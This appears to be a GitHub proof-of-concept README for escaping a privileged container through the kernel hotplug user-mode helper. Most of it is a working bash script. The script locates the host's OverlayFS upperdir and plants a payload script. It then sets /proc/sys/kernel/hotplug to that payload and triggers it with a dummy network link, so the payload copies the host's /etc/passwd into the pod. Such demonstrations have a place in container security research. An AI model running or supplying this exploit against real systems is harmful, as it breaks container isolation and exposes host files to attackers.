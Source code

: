 # Container Escape via `/proc/sys/kernel/hotplug` 

> Proof-of-concept demonstrating container escape by leveraging the kernel’s hotplug user-mode helper.

---

## Environment Requirements

- Privileged/pod container

## Proof-of-Concept


```bash
# Extract the OverlayFS upperdir path, which maps to a real directory on the host
host_path=$(sed -n 's/.*upperdir=\([^,]*\).*/\1/p' /proc/mounts)

# Create a payload script that will be executed by the kernel
echo '#!/bin/sh' > /tmp/payload.sh

# The payload reads sensitive host information and writes it to a file inside the pod
echo "cat /etc/passwd > $host_path/output.txt" >> /tmp/payload.sh

# Make the payload executable
chmod a+x /tmp/payload.sh

# Set the kernel's hotplug handler to point to the created payload 
echo "$host_path/tmp/payload.sh" > /proc/sys/kernel/hotplug

# optional: install -y iproute2

# Trigger a hotplug event to invoke the kernel's helper (our payload)
ip link add dummy0 type dummy

```
## Demo

[![asciicast](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV.svg)](https://asciinema.org/a/HPAA6MEJhK5xx7aOev0a5f0DV)

